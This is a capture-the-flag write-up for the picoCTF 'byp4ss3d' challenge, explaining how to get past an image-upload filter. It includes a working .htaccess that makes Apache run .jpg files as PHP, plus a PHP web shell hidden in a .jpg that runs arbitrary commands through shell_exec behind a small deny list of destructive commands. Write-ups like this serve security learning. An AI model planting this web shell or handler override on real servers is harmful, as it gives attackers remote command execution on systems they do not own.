








# byp4ss3d

## Description

A university's online registration portal asks students to upload their ID cards for verification. The developer put some filters in place to ensure only image files are uploaded but are they enough? Take a look at how the upload is implemented. Maybe there's a way to slip past the checks and interact with the server in ways you shouldn't.

Additional details will be available after launching your challenge instance.

---

## Solution

### Reference

Here is the reference I watched before solving this challenge:
- [File Upload Bypass Techniques](https://youtu.be/kTapefIgswY?si=IgFj2joPsWmNZjKK)

### Methodology

The approach to solve this challenge involves:

1. **Create and upload a `.htaccess` file** that maps the image extension(s) to the PHP handler.
   - This instructs Apache to treat `.jpg`, `.jpeg`, `.phtml` as PHP files.

2. **Create a polyglot file** that looks like an allowed image but contains PHP code, then upload it into the directory controlled by the `.htaccess`.
   - Optionally use a double-extension (e.g., `picoctf.php.jpg`) if the upload checks look only at the filename.

3. **Request the uploaded file** to run the PHP code and obtain the flag.

---

### Step 1: Create `.htaccess` File

Create a `.htaccess` file with the following content:

```apache
AddHandler application/x-httpd-php .jpg .jpeg .phtml .php
<FilesMatch "\.(jpg|jpeg|phtml|php)$">
  SetHandler application/x-httpd-php
</FilesMatch>
```





---

### Step 2: Create Malicious Image File

Create a file named `picoctf.jpg` containing PHP code:

```php
<?php
if (!isset($_GET['cmd'])) { echo "no cmd\n"; exit; }
$cmd = $_GET['cmd'];
$bad = array('rm','shutdown','reboot','mkfs','dd',':(){','fork','kill','passwd');
foreach($bad as $b){ if (stripos($cmd,$b)!==false) { echo "refuse $b\n"; exit; } }
echo "=== OUTPUT ===\n";
echo shell_exec($cmd . ' 2>&1');
?>
```





---

### Step 3: Execute Commands and Find the Flag



Since we can't use `cd` normally, we need to find another way to locate the flag. Using this command to search for the flag:

```bash
grep -RIl --binary-files=without-match -m1 'picoCTF' /var/www /home /opt /tmp 2>/dev/null | sed -n '1,1p'
```







---
